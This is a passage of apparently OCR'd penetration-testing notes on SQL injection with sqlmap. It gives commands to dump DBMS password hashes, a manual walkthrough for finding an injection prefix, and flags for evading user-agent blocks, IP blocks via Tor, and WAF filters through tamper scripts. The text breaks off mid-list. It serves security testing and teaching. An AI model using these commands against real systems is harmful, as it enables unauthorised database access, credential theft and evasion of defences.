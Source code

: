    Specify the number of coulumns for a unin based query manually.
 - `sqlmap -r request.txt --passwords`  
   Get the password-hashes from the users within the DBMS itself.
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.

**Manual prefix testing**

 1. Testing `https://pentest-experts.com/case6.php?col=id'` = No output = Not sure if it worked
 2. Testing `https://pentest-experts.com/case6.php?col=id"` = No output = Not sure if it worked
 3. Testing `https://pentest-experts.com/case6.php?col=id%60` - SQL Error = Confirmed working but prefix not correct
 4. Testing `https://pentest-experts.com/case6.php?col=id%60+--+` - SQL Error = Confirmed working but prefix not correct, trying to add `)`
 5. Testing `https://pentest-experts.com/case6.php?col=id%60)+--+` - SQL Error = Confirmed working but prefix not correct, trying to add `)`
 6. Testing `https://pentest-experts.com/case6.php?col=id%60))+--+` - Some data output = Confirmed working, prefix correct, using `--prefix="%60))"` in SQLmap

 In case there is no error, I would try `')`, `'))`, ... and `")`, `"))`, ...

**Bypassing defense mechanisms**

 - `sqlmap -r request.txt --random-agent --dbs`  
   User random user agent to overcome UA blocking
 - `sqlmap -r request.txt --csrf-token="csrf-token-parameter-name" --dbs`  
   Read and use CSRF token for each request
 - `sqlmap -r request.txt --randomize="parameter-name-for-random-value" --dbs`  
   Calculate a new random message for each request 
 - `sqlmap -r request.txt --eval="import hashlib; hash_parameter=hashlib.md5(msg).hexdigest()" --dbs`  
   Calculate hash for each request (using Python code)
 - `sqlmap -r request.txt --proxy="socks4://127.0.0.1:9050" --dbs`  
   Use TOR proxy to overcome IP address blocking
 - `sqlmap -r request.txt --chunked --dbs`  
   Send payloads in multiple HTTP packages as chunks to avoid detection
 - `sqlmap -r request.txt --hpp --dbs`  
   Split payloads in multiple instance of the same parameter (e.g.: `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users`)  
   Works only if a target concatinate those like ASP does!
 - `sqlmap -r request.txt --tamper=script1,script2,... --dbs`  
   Using pre-defined tamper scripts to bypass WAF/IPS solutions:
    - `0eunion`  
      Replaces instances of `UNION` with `e0UNION`
    - `base64encode`  
      Base64-encodes all characters in a given payload
    - `between`  
      Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #`
    - `commalesslimit`  
      Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart
    - `equaltolike`  
      Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart
    - `halfversionedmorekeywords`  
      Adds (MySQL) versioned comment before each keyword
    - `modsecurityversioned`  
      Embraces complete query with (MySQL) versioned comment
    - `modsecurityzeroversioned`  
      Embraces complete query with (MySQL) zero-versioned comment
    - `percentage`  
      Adds a percentage sign (`%`) in front of each character (e.g. `SELECT` -> `%S%E%L%E%C%T`)
    - `plus2concat`  